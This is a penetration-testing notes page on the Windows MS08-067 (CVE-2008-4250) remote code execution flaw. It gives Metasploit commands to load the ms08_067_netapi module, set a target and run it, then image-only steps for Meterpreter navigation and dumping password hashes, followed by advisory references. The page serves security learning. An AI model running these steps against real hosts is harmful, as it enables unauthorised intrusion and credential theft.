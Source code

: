 # Remote Code Execution - ms08\_067

## CVE-2008-4250

### Description

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."

## Using gunzip and Hydra

#### Gunzip

![](/assets/import.png)

#### Hydra

![](/assets/import2.png)

## Using Metasploit

![](/assets/Search_ms08_067.png)

```
msf > use exploit/windows/smb/ms08_067_netapi
```

```
msf > show options
```

```
msf > set RHOST <Target IP Address>
```

![](/assets/ms08_exploit.png)

```
msf > exploit
```

#### Meterpreter - Navigating

## ![](/assets/Nav1.png)

![](/assets/nav2.png)

![](/assets/nav3.png)

![](/assets/nav4.png)

#### Meterpreter - Hash the File

![](/assets/ms08_067_HashFile.png)





---

## References

* BUGTRAQ:20081026 Windows RPC MS08-067 FAQ document released
* [URL:http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded)

* BUGTRAQ:20081027 Windows RPC MS08-067 FAQ document updated

* [URL:http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded)

* EXPLOIT-DB:6824
* [URL:https://www.exploit-db.com/exploits/6824](https://www.exploit-db.com/exploits/6824)
* EXPLOIT-DB:6841
* [URL:https://www.exploit-db.com/exploits/6841](https://www.exploit-db.com/exploits/6841)
* EXPLOIT-DB:7104
* [URL:https://www.exploit-db.com/exploits/7104](https://www.exploit-db.com/exploits/7104)
* EXPLOIT-DB:7132
* [URL:https://www.exploit-db.com/exploits/7132](https://www.exploit-db.com/exploits/7132)
* [MISC:http://blogs.securiteam.com/index.php/archives/1150](http://blogs.securiteam.com/index.php/archives/1150)
* HP:HPSBST02386
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* HP:SSRT080164
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* MS:MS08-067
* [URL:http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx](http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx)
* CERT:TA08-297A
* [URL:http://www.us-cert.gov/cas/techalerts/TA08-297A.html](http://www.us-cert.gov/cas/techalerts/TA08-297A.html)
* CERT:TA09-088A
* [URL:http://www.us-cert.gov/cas/techalerts/TA09-088A.html](http://www.us-cert.gov/cas/techalerts/TA09-088A.html)
* CERT-VN:VU\#827267
* [URL:http://www.kb.cert.org/vuls/id/827267](http://www.kb.cert.org/vuls/id/827267)
* BID:31874
* [URL:http://www.securityfocus.com/bid/31874](http://www.securityfocus.com/bid/31874)
* OVAL:oval:org.mitre.oval:def:6093
* [URL:https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093](https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093)
* SECTRACK:1021091
* [URL:http://www.securitytracker.com/id?1021091](http://www.securitytracker.com/id?1021091)
* VUPEN:ADV-2008-2902
* [URL:http://www.vupen.com/english/advisories/2008/2902](http://www.vupen.com/english/advisories/2008/2902)
* SECUNIA:32326
* [URL:http://secunia.com/advisories/32326](http://secunia.com/advisories/32326)
* XF:win-server-rpc-code-execution\(46040\)
* [URL:https://exchange.xforce.ibmcloud.com/vulnerabilities/46040](https://exchange.xforce.ibmcloud.com/vulnerabilities/46040)




